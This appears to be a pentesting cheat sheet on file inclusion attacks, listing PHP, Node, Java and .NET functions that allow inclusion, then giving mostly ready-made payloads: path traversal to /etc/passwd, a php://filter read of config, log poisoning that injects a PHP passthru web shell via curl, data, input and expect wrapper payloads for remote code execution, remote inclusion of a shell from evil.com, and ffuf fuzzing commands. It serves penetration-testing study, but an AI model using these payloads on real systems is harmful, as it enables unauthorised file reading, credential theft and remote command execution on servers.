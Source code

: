 ```yaml
---
description: Notes about some basic File Insclusion attack
---
```


# File Inclusion

### Dangerous Function Lead to File Inclusion

| **Function**                 | **Read Content** | **Execute** | **Remote URL** |
| ---------------------------- | :--------------: | :---------: | :------------: |
| **PHP**                      |                  |             |                |
| `include()`/`include_once()` |         ✅        |      ✅      |        ✅       |
| `require()`/`require_once()` |         ✅        |      ✅      |        ❌       |
| `file_get_contents()`        |         ✅        |      ❌      |        ✅       |
| `fopen()`/`file()`           |         ✅        |      ❌      |        ❌       |
| **NodeJS**                   |                  |             |                |
| `fs.readFile()`              |         ✅        |      ❌      |        ❌       |
| `fs.sendFile()`              |         ✅        |      ❌      |        ❌       |
| `res.render()`               |         ✅        |      ✅      |        ❌       |
| **Java**                     |                  |             |                |
| `include`                    |         ✅        |      ❌      |        ❌       |
| `import`                     |         ✅        |      ✅      |        ✅       |
| **.NET**                     |                  |             |                |
| `@Html.Partial()`            |         ✅        |      ❌      |        ❌       |
| `@Html.RemotePartial()`      |         ✅        |      ❌      |        ✅       |
| `Response.WriteFile()`       |         ✅        |      ❌      |        ❌       |
| `include`                    |         ✅        |      ✅      |        ✅       |

### Local File Inclusion (LFI)

Local File Inclusion (LFI) is a type of vulnerability where an attacker can exploit a web application to include files that are already present on the server. By manipulating input parameters, such as URLs or form fields, the attacker can trick the application into loading files from the local file system, potentially accessing sensitive information or executing malicious code.

#### Basic LFI Payloads

| Command                                                   | Description             |
| --------------------------------------------------------- | ----------------------- |
| `/etc/passwd`                                             | Basic LFI               |
| `../../../../etc/passwd`                                  | LFI with path traversal |
| `/../../../etc/passwd`                                    | LFI with name prefix    |
| `./languages/../../../../etc/passwd`                      | LFI with approved path  |
| `php://filter/read=convert.base64-encode/resource=config` | LFI with Base64 Filter  |
| `../../../../etc/passwd%00`                               | LFI with Null byte      |

#### Log Poisoning to RCE

```bash
# Inject Access Log
curl -X "<?php echo passthru(\$_GET['cmd']);?>" http://target.com/

# Access
http://target.com/index.php?page=/var/log/apache2/access.log&cmd=id
```

Access Log Location

Apache:

* /var/log/apache/access.log
* /var/log/apache2/access.log
* /etc/httpd/logs/access\_log&#x20;

Nginx:

* /var/log/nginx/access.log

#### LFI to RCE

{% code overflow="wrap" %}
```bash
# Data Wrappers
http://target.com/index.php?page=/index.php?page=data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWyJjbWQiXSk7ID8%2BCg%3D%3D&cmd=id

# Input Wrappers
curl -s -X POST --data '<?php system($_GET["cmd"]); ?>' "http://target.com/index.php?page=php://input&cmd=id"

# Expect Wrappers
curl -s "http://target.com/index.php?page=expect://id"
```
{% endcode %}

### Remote File Inclusion (RFI)

In most languages, including remote URLs is considered as a dangerous practice as it may allow for such vulnerabilities. This is why remote URL inclusion is usually disabled by default. For example, any remote URL inclusion in PHP would require the allow\_url\_include setting to be enabled.

{% code overflow="wrap" %}
```bash
http://target.com/index.php?page=ftp://user:pass@localhost/shell.php&cmd=id

http://target.com/index.php?page=http://evil.com/shell.php&cmd=id
```
{% endcode %}

### Automation

{% code overflow="wrap" %}
```bash
# Fuzzing Parameter
ffuf -w /usr/share/wordlists/seclists/Discovery/Web-Content/burp-parameter-names.txt:FUZZ -u 'http://target.com/index.php?FUZZ=value' -fs 2309

# Check working payload with LFI wordlists
ffuf -w /usr/share/wordlists/seclists/Fuzzing/LFI/LFI-Jhaddix.txt:FUZZ -u 'http://target.com/index.php?view=FUZZ' -fs 2309

# Read Apache2 Conf
curl http://target.com/index.php?view=../../../../../../../../../../../../../../../../../../etc/apache2/apache2.conf
```
{% endcode %}

### WordLists

* https://raw.githubusercontent.com/DragonJAR/Security-Wordlist/main/LFI-WordList-Linux
* https://raw.githubusercontent.com/DragonJAR/Security-Wordlist/main/LFI-WordList-Windows
* https://github.com/danielmiessler/SecLists/blob/master/Fuzzing/LFI/LFI-Jhaddix.txt

References

* [https://book.hacktricks.xyz/pentesting-web/file-inclusion](https://book.hacktricks.xyz/pentesting-web/file-inclusion)
